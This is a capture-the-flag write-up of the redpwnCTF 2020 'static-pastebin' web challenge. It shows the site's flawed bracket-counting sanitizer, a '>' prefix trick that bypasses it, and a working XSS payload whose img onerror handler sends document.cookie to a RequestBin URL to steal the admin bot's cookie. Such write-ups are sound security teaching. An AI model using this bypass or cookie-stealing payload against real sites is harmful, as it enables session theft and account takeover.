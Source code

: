```yaml
---
layout: post
title: redpwnCTF 2020 - static-pastebin
excerpt: An in-depth look at static-pastebin from redpwnCTF 2020. Huge thanks to redpwn for this awesome event!
date: 2020-06-25
tags: redpwnCTF 2020, Web, JavaScript, Cookie Stealing, XSS, RequestBin
author: Noxtal
---
```

 <p align="center">
  <img height=85 src="https://i.imgur.com/hE3Cc7M.png"
 </p>

 An in-depth look at static-pastebin from redpwnCTF 2020. Huge thanks to **redpwn** for this awesome event!

-----

# Description
Web, 373 points</br>
Challenge author: BrownieInMotion

> I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it [here]("https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin")

*Note: if this challenge is not disponible at the time you read this writeup, I've made a similar challenge hosted on my domain. You can find it [here](https://challenges.noxtal.com/redbook).*

# Solution
When we open the challenge's website, we can see a pastebin-like website on which you can create a *paste* and "publish it to the internet". Actually, after analyzing the code a bit, we can find that the *paste*'s URL is only `/paste/#` appended with the paste itself encoded as base64.

We have only got a text input and a button that allows us to reflect what we have typed on another page. This is a perfect playground for XSS. If you don't know XSS yet, I really suggest you learn more about it, as it is a really common attack in real-life scenarios. You can learn more about it on my [learning platform](https://learn.noxtal.com).

Let's test this idea by trying to inject an h1 tag in the *paste*.
![h1 test](https://i.imgur.com/bIM7b3n.png)

Weirdly, it seems like the h1 tag wasn't reflected on the *paste*. That doesn't mean XSS is not possible, it only means that there may be a sanitizer implemented that we need to bypass. By looking at the source provided in Chrome's Developer Tools, we can find a JavaScript file named *script.js*.

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

There is the sanitizer, the `clean()` function. As you can probably see, this function removes (or unless tries) to remove every string surrounded by brackets, thus HTML tags. 

## Sanitizer Bypass
We now need to bypass the sanitizer. Let's take a look at the code to figure out how to bypass it. The main loop loops over each character of the *paste*. Then comes the filters: there is a variable named `brackets` which keeps track of if the current character is in between brackets or not. If a less than bracket sign is encountered, this count goes up by 1. Else, if a greater than sign appears, the count goes down by 1. If the count is equal to 0, the current character is reflected on the *paste*. 

After a few bypass attempts, we can find that putting a greater than sign in front of the tag we want to inject, it will actually be reflected. This comes from the fact that this sign makes the count go down by 1, thus when the less than sign will be encountered the `brackets` variable is going to equal zero.

The only con with this technique is that we can only pass one tag, so no classic opening and closing tags. This is not really a problem when using *img* tags, as you will see later on.

## Cookie Stealing
In the challenge's description, we can see we are given an admin bot. The flag must be contained in that admin user. One of the main use of XSS is stealing cookies, meaning we may need to steal the admin bot's cookie. To steal cookies, we only need to inject a tag that requests a page we own with the cookies in the query and give that to the user we want to steal cookies from. This process can be done easily by the use of RequestBin.

RequestBin is a web application allowing you to create a special URL that logs every request made to it so you can analyze them. If we request a RequestBin URL and append `document.cookie` to it, we should get a request logged containing the cookie in the query logged. This is the final payload I came up with. It makes use of an image tag with the `src` parameter set to x and the `onerror` parameter to the JavaScript code we want to execute (in our case requesting the RequestBin link). The `src` parameter will create an error because it was set to an arbitrary value and will trigger the code specified in the `onerror` parameter.

```html
><img src=x onerror=this.src="REQUESTBIN_URL"+document.cookie/>
```

We finally need to put the payload in the paste and give the corresponding URL to the admin bot and we are done! The flag can be found as expected in the admin cookies.
![flag](https://i.imgur.com/JTGRrrh.png)

That's all we got to do to solve this challenge. RedpwnCTF was really fun, even if the challenges were harder than other CTFs I played. I enjoyed doing the web challenges. Huge thanks to **redpwn** for this awesome event. 

If this challenge is not disponible at the time you read this writeup, I've made a similar challenge hosted on my domain. You can find it [here](https://challenges.noxtal.com/redbook).

If you have any questions, feel free to contact me via [Twitter](https://twitter.com/noxtal_) or using any of the methods listed [here](https://writeups.noxtal.com/#/pages/about).
